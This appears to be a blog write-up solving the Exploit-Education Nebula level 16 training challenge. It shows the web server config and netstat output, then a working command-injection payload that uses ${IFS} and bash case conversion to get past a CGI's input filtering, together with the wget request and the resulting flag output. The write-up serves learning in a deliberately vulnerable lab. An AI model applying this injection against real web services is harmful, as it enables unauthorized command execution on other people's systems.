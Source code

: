 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 16"
date:   2019-08-23 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 16](https://exploit.education/nebula/level-16/)

## Challenge
```apache
level16@nebula:/home/flag16$ cat thttpd.conf | grep -v "#"
port=1616
dir=/home/flag16
nochroot
user=flag16
cgipat=**.cgi
```

level16@nebula:~$ netstat -peanut
(No info could be read for "-p": geteuid()=1017 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 127.0.0.1:50001         0.0.0.0:*               LISTEN      987        10807       -        
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          12702       -        
tcp        0      0 0.0.0.0:10007           0.0.0.0:*               LISTEN      982        10802       -        
tcp        0      0 192.168.5.134:22        192.168.5.1:50665       ESTABLISHED 0          12746       -        
tcp        0      0 192.168.5.134:22        192.168.5.1:50293       ESTABLISHED 0          12084       -        
tcp6       0      0 :::1616                 :::*                    LISTEN      0          10796       -        
tcp6       0      0 :::22                   :::*                    LISTEN      0          12704       -        
tcp6       0      0 :::7007                 :::*                    LISTEN      0          10747       -        
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          12579       -        
level16@nebula:~$


No lowercase
No space
{IFS}

"${IFS}1;Y="/TMP/RUN.SH";Y="${Y,,}";$Y${IFS}"
 
 
```bash
echo "echo pwned>/tmp/out;">/tmp/run.sh
echo "getflag>>/tmp/out;">>/tmp/run.sh
cat /tmp/run.sh
chmod 777 /tmp/run.sh
wget 'http://192.168.5.134:1616/index.cgi?username="${IFS}1%3bY="/TMP/RUN.SH"%3bY="${Y,,}"%3b$Y${IFS}"' -O out
```

```bash
level16@nebula:~$ echo "echo pwned>/tmp/out;">/tmp/run.sh
level16@nebula:~$ echo "getflag>>/tmp/out;">>/tmp/run.sh
level16@nebula:~$ cat /tmp/run.sh
echo pwned>/tmp/out;
getflag>>/tmp/out;
level16@nebula:~$ chmod 777 /tmp/run.sh
```
```bash
level16@nebula:~$ wget 'http://192.168.5.134:1616/index.cgi?username="${IFS}1%3bY="/TMP/RUN.SH"%3bY="${Y,,}"%3b$Y${IFS}"' -O out
--2019-08-23 11:26:51--  http://192.168.5.134:1616/index.cgi?username   =%22$%7BIFS%7D1%3bY=%22/TMP/RUN.SH%22%3bY=%22$%7BY,,%7D%22%3b$Y$%7BIFS%7D%22
Connecting to 192.168.5.134:1616... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: `out'

    [ <=>                                   ] 123         --.-K/s   in 0.006s

2019-08-23 11:26:51 (19.6 KB/s) - `out' saved [123]

level16@nebula:~$
level16@nebula:~$ cat /tmp/out
pwned
You have successfully executed getflag on a target account
```